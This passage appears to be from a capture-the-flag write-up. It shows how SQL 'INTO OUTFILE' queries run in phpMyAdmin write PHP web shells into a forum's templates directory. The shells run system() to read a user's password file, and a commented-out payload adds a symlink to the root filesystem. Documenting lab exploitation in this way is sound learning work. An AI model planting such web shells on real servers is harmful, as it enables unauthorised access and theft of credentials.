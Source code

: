 # suEXEC

Using the same way we injected a php file for our reverse shell, we will inject a file which lets us read any file and directory on the filesystem.

I uploaded this file in phpmyadmin after logging in with the credentials found in writeup3.
```sql
SELECT '<?php system("id; cat /home/LOOKATME/password");?>' INTO OUTFILE '/var/www/forum/templates_c/test.php'
```
I figured I'd ensure that my access to the path /home/LOOKATME/password was denied, but actually it turns out www-data owns the /home/LOOKATME folder for some reason.

I'd argue this is an exploit, since we are now able to find these credentials just by exploiting the server, instead of the ISO.

<!--The goal is to do something like this, so that if we encounter a path we aren't allowed to access, we can circumvent it using symlinks.

```sql
SELECT '<?php system("ln -sf / test99.php");?>' INTO OUTFILE '/var/www/forum/templates_c/su_exec.php'
```
In case system() is blocked, you can try the builtin function symlink()-->


[Source](https://www.exploit-db.com/exploits/27397)
